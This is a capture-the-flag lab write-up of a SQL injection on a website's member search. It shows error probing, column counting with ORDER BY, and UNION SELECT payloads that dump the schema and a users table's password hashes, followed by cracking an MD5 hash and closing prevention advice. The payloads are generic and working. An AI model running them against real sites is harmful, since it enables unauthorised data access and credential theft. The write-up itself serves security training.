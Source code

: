 # SQL Injection: Members

The members page of the website have an input field to search for members. Firstly we have to try if the input is vulnerable to SQL injection. Let's try a simple payload like `'` to see if we can get a SQL error message. There is the output:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```
This means that the input is vulnerable to SQL injection. NBut we have to find the number of columns in the table to be able to add a UNION SELECT statement. Let's try:
```SQL
1 ORDER BY 1 -- WORKING
2 ORDER BY 2 -- WORKING
3 ORDER BY 3 -- NOT WORKING
```
This means that the table has 2 columns. Now we can fake the first column with a number to simulate the id column and the second column with the result of an UNION SELECT. For example we can explore the database schema with the following query:
```SQL
1 UNION ALL SELECT table_name, GROUP_CONCAT(column_name) FROM information_schema.columns GROUP BY table_name
```
Now we can see the tables and columns of the database. We can see an `users` tables with the following columns:
```
town,last_name,first_name,user_id,country,planet,countersign,Commentaire
```
Let's check the `Commentaire` column values:
```SQL
1 UNION ALL SELECT Commentaire, countersign FROM users
```
This will return the `Commentaire` and `countersign` columns from the `users` table. But one of the values is :
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
If we decrypt `5ff9d0165b4f92b14994e5c685cdce28` in MD5 we get `FortyTwo`. Then encrypt it with SHA256 and lower all the characters:
```bash
echo -n "fortytwo" | sha256sum | cut -d ' ' -f 1
```
We get the flag.

# How to prevent it
To prevent SQL injection, you should always use prepared statements or parameterized queries. This ensures that user input is treated as data and not executable code. Additionally, you should validate and sanitize user input to ensure it meets the expected format and does not contain malicious content. Just use an ORM...